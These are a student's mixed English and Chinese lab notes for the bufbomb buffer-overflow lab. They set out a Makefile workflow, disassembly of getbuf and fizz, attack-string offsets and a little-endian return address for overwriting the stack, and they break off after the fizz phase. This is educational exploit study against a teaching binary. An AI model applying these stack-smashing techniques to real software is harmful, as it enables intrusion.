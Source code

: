 # Lab 3 Notes

## Intro

### Phase List

-   `smoke_U201414800.txt`
-   `fizz_U201414800.txt`
-   `bang_U201414800.txt`
-   `boom_U201414800.txt`
-   `nitro_U201414800.txt`

### Basic Running Command

#### Get Cookie

```bash
$ makecookie U201414800 && makecookie U201414800 >> cookie.txt
```

#### Run

```bash
$ ./hex2raw smoke_U201414800.txt smoke_U201414800_raw.txt
$ ./bufbomb -u U201414800 < smoke_ U201414800_raw.txt
(gdb) run -u U201414800 < smoke_ U201414800_raw.txt
```

#### Attack

```bash
$ gcc -m32 -c attack.s
$ objdump -d attack.o >> attack.asm
```

## Ready Phase

### Makfile

-   编写 Makefile，简化工作流

```makefile
# 分析反汇编代码
dump:
	objdump -d bufbomb > bufbomb.asm && vim bufbomb.asm

# 分析 bufbomb C源码
src:
	vim bufbomb.c

# 利用 gdb 进行有限的动态分析
debug:
	gdb bufbomb

# 利用 makecookie 得到 cookie 字符串
cookie:
	./makecookie U201414800 && ./makecookie U201414800 > cookie.txt

# 编写汇编代码，并得到其机器指令码
asm:                       
    gcc -m32 -c attack.s   
    objdump -d attack.o >> attack.asm 

# 利用 hex2raw 生成攻击字符串
raw:
	cat smoke_U201414800.txt | ./hex2raw > smoke_U201414800_raw.txt
	cat fizz_U201414800.txt | ./hex2raw > fizz_U201414800_raw.txt
	cat bang_U201414800.txt | ./hex2raw > bang_U201414800_raw.txt
	cat boom_U201414800.txt | ./hex2raw > boom_U201414800_raw.txt
	cat nitro_U201414800.txt | ./hex2raw > nitro_U201414800_raw.txt

# 进行攻击测试
test:
	./bufbomb -u U201414800 < smoke_U201414800_raw.txt
# ./bufbomb -u U201414800 < fizz_U201414800_raw.txt
# ./bufbomb -u U201414800 < bang_U201414800_raw.txt
# ./bufbomb -u U201414800 < boom_U201414800_raw.txt
# ./bufbomb -u U201414800 < nitro_U201414800_raw.txt
```

-   make cookie 得到 cookie
-   make dump 得到反汇编代码

## Analysis Phase

-   launcher() -> launch() -> test()/testn() -> getbuf()/getbufn() 

```c
int getbuf() {
    char buf[NORMAL_BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

-　 利用 vim 编辑器 在 bufbomb.asm 中搜索 `<getbuf>`
-   攻击字符串长度应为 0x28+0x4+0x4 = 48 bytes,最后4个字节为返回地址

```asm
080491ec <getbuf>:   
80491ec:   55                      push   %ebp
80491ed:   89 e5                   mov    %esp,%ebp
80491ef:   83 ec 38                sub    $0x38,%esp
80491f2:   8d 45 d8                lea    -0x28(%ebp),%eax
80491f5:   89 04 24                mov    %eax,(%esp)
80491f8:   e8 55 fb ff ff          call   8048d52 <Gets>      
80491fd:   b8 01 00 00 00          mov    $0x1,%eax
8049202:   c9                      leave  
8049203:   c3                      ret    
```

## 基本流程

```bash
; 静态分析 + 动态分析
make src
make dump
(make debug)

; 编写汇编代码  
vim attack.s
make asm
; 得到对应机器字节码,添加必要注释
vim phase_U201414800.txt attack.asm
; 生成攻击字符串
make raw

; 进行攻击测试
make test
```

## Smoke Phase

键入 make dump,开始静态分析
利用 vim 编辑器 在 bufbomb.asm 中搜索 `<smoke>`, 得地址为 0x08048c90.
结合 linux 系统小端模式的特性,故将攻击字符串最低４个字节设为 90 8c 04 08

## Fizz Phase

键入 make dump,开始静态分析
此阶段需要传入 cookie 参数.
利用 vim 编辑器 在 bufbomb.asm 中搜索 `<fizz>`
地址为 0x08048cba

```asm
08048cba <fizz>:                                            
8048cba:   55                      push   %ebp             
8048cbb:   89 e5                   mov    %esp,%ebp        
8048cbd:   83 ec 18                sub    $0x18,%esp       
; 从此句可得 fizz 函数取得在 0x8(%ebp)处取得第一个参数
; 由于 push %ebp 语句的存在,故 cookie 应置于 返回地址 4 个字节第 4 个字节开始
8048cc0:   8b 45 08                mov    0x8(%ebp),%eax   
; 键入 x/wx 0x804c220,输出: 0x804c220 <cookie>: 0x6898ac90
8048cc3:   3b 05 20 c2 04 08       cmp    0x804c220,%eax   
8048cc9:   75 1e                   jne    8048ce9 <fizz+0x2f>
8048ccb:   89 44 24 04             mov    %eax,0x4(%esp)   
8048ccf:   c7 04 24 2e a1 04 08    movl   $0x804a12e,(%esp)
8048cd6:   e8 f5 fb ff ff          call   80488d0 <printf@plt>
8048cdb:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)      
8048ce2:   e8 5d 06 00 00          call   8049344 <validate>
8048ce7:   eb 10                   jmp    8048cf9 <fizz+0x3f>
8048ce9:   89 44 24 04             mov    %eax,0x4(%esp)   
8048ced:   c7 04 24 c4 a2 04 08    movl   $0x804a2c4,(%esp)   
8048cf4:   e8 d7 fb ff ff          call   80488d0 <printf@plt>
8048cf9:   c7 04 24 00 00 00 00    movl   $0x0,(%esp)      
8048d00:   e8 8b fc ff ff          call   8048990 <exit@plt>
```

0x28+0x4(%ebp)+0x4(return address)+0x8(first argument) = 56 bytes

> 使用 gdb 进行调试时，发现不能像以往那样在某一行设置断点，只能在某些函数处设置断点.故 (gdb) b getbuf, 在 getbuf 函数处设置断点
